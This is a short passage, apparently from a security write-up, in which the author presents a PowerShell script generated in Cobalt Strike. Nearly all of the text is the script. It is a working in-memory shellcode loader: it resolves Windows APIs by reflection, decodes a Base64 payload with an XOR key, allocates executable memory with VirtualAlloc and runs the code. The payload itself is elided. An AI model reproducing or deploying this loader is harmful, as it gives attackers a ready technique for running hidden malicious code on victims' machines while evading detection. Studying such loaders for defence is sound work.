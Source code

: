 Using the same listener, I generated the following PowerShell script in Cobalt Strike.


```powershell
Set-StrictMode -Version 2

function func_get_proc_address {
        Param ($var_module, $var_procedure)
        $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
        $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
        return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
                [Parameter(Position = 1)] [Type] $var_return_type = [Void]
        )

        $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
        $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

        return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('<VERY long Base64 string>')
        for ($x = 0; $x -lt $var_code.Count; $x++) {
                $var_code[$x] = $var_code[$x] -bxor 35
        }

        $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        $var_runme.Invoke([IntPtr]::Zero)
}
```
